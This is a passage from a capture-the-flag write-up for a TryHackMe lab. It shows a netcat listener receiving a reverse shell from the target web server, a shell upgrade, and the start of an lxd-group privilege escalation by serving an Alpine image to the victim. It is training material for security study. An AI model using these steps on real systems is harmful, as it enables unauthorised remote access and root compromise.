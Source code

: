 Start my listener on the local machine and reload the index page to execute the template which is actually the reverse shell:

```
┌──(kali㉿kali)-[~/TryHackMe/JokerCTF]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.154.176] 42654
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:19:41 up 2 min,  0 users,  load average: 2.33, 1.54, 0.62
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$
```

### Vertical Privilege Escalation

Checking current user `id`:

```
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

Googling the privilege escalation method via this group, I implement these following steps:

Download the `lxd-alpine-builder` from github to local machine, then transfer it to the target:

```
┌──(kali㉿kali)-[~/TryHackMe/JokerCTF]
└─$ git clone https://github.com/saghul/lxd-alpine-builder
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 6.31 MiB/s, done.
Resolving deltas: 100% (15/15), done.
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/JokerCTF]
└─$ cd lxd-alpine-builder 
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/JokerCTF/lxd-alpine-builder]
└─$ ls -l
total 3224
-rw-r--r-- 1 kali kali 3259593 Dec  1 16:25 alpine-v3.13-x86_64-20210218_0139.tar.gz
-rwxr-xr-x 1 kali kali    8060 Dec  1 16:25 build-alpine
-rw-r--r-- 1 kali kali   26530 Dec  1 16:25 LICENSE
-rw-r--r-- 1 kali kali     768 Dec  1 16:25 README.md
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/JokerCTF/lxd-alpine-builder]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.154.176 - - [01/Dec/2023 16:27:06] "GET /alpine-v3.13-x86_64-20210218_0139.tar.gz HTTP/1.1" 200 -
```
